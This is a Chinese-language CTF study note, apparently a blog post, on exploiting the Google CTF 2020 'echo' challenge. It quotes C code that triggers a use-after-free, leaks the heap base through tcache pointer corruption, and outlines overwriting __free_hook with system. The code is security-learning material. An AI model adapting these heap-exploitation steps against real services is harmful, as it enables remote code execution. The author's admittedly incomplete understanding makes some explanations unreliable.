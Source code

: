 参考：

https://github.com/yytgravity/Daily-learning-record/blob/master/google%20ctf%20wp/echo/Readme.md

http://blog.redrocket.club/2020/08/30/google-ctf-quals-2020-echo/



```c
// fill up remaining chunks 1 to 9
    //填充剩余1-8个块
    for (i = 1; i < 9; i++) {
        writeall(conns[i], chunk, 0x10000u >> i);
        yield();
    }
```

为什么要右移？（似乎是）填充由字符串重新分配引起的漏洞（没看懂

但是后面leak libc的时候利用到了

## uaf漏洞利用方式

```c
#define yield() usleep(1000)

int conn() {
    //open connection on localhost:21337
}

int main() {
    int c1, c2;
    
    c1 = conn();
    yield();
    c2 = conn();
    write(c1, "AAAA...", 0x20);
    write(c2, "BBBB...", 0x20);
    yield();
    
    write(c2, "uafw", 4);
    close(c1);
    yield();
    
    return 0;
}
```

用这个代码会实现uaf，第三个对于c2的write会写到c1去，似乎是因为析构会将两个fd的chunk指针交换



## leak heap

- 泄漏heap的地址主要依靠glibc2.29引入的key指针，我们都知道它指向堆开头的tcache_perthread_struct结构的地址，我们将他泄漏就可以得到堆基址。

操作：

1. 申请0x10000大小的大chunk（主要保证之后低地址覆盖时可以正好落入大chunk）
2. 申请三个chunk
3. free chunk A，chunk B，然后利用uaf把chunk B的fd指针的第一个字节修改为空
4. 申请chunk C，chunk D，chunk C=chunk B，因为修改了字节，所以chunk D大概率在之前申请的大chunk里
5. free掉chunk D，然后输出大chunk，在里面即可找到heap基址

```c
// allocate 3 0x30 chunks, A chunk right behind the 0x10000 area
    //分配三个0x30的块
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    yield();
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();

    // close A buffer, places pointer to it in tcache freelist head
    //关闭A，将指向它的指针放在tcache的freelist head中
    close(conns[13]);
    yield();

    // bug: free B, and uaf write two nullbytes into free'd B memory.
    // partially overwrites tcaches next pointer pointing to A.            
    write(conns[15], "\0", 1);
    close(conns[14]);
    yield();

    // allocate two 0x30 chunks, Y is likely to be placed inside the 0x10000 area
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY", 0x20);
    yield();

    // free Y chunk, writes heap base into 0x10000 area
    close(conns[14]);
    yield();

    // read the buffer back in by sending '\n'
    write(conns[0], "\n", 1);
    // skip the hello message, linus would insult me for writing this code
    do {
        read(conns[0], chunk, 1);
    } while(*chunk != '\n');
    readall(conns[0], chunk, 0x10000);

    // search for heap address
    size_t *leak = memmem(chunk, 0x10000, "YYYYYYYY", 8);
    if (!leak) {
        puts("heapbase not found :(");
        exit(0);
    }
    size_t heapbase = leak[-1];
    printf("heapbase located at: 0x%lx\n", heapbase);
```



## leak libc

说实话 没看太懂...



## get flag

还是利用uaf，获取free_hook的空间

用libc.system覆盖掉它

在chunk里写下想执行的语句，执行即可

